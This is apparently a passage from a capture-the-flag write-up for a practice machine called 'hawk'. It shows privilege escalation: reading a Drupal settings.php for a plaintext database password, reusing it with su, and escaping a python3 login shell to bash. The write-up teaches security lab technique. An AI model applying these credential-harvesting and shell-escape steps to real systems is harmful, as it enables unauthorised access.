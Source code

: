 

## Privesc: www-data -\> daniel

Whenever I get on a box via a web exploit, I also look for database
config information in the web pages. In this case, Drupal settings are
stored in `/var/www.md/sites/default/settings.php`:



    $databases = array (
      'default' =>
      array (
        'default' =>
        array (
          'database' => 'drupal',
          'username' => 'drupal',
          'password' => 'drupal4hawk',
          'host' => 'localhost',
          'port' => '',
          'driver' => 'mysql',
          'prefix' => '',
        ),
      ),
    );



That password actually works for daniel:



    www-data@hawk:/var/www.md$ su daniel
    Password:
    Python 3.6.5 (default, Apr  1 2018, 05:46:30)
    [GCC 7.3.0] on linux
    Type "help", "copyright", "credits" or "license" for more information.
    >>>



What? Why a python shell? The user's shell is set to python:



    www-data@hawk:/var/www.md$ grep daniel /etc/passwd
    daniel:x:1002:1005::/home/daniel:/usr/bin/python3



Still, it is easy enough to escape:



    >>> import subprocess
    >>> subprocess.call('/bin/bash', shell=True)
    daniel@hawk:/var/www.md$ id
    uid=1002(daniel) gid=1005(daniel) groups=1005(daniel)



`pty.spawn("/bin/bash")` also works to escape the python shell.
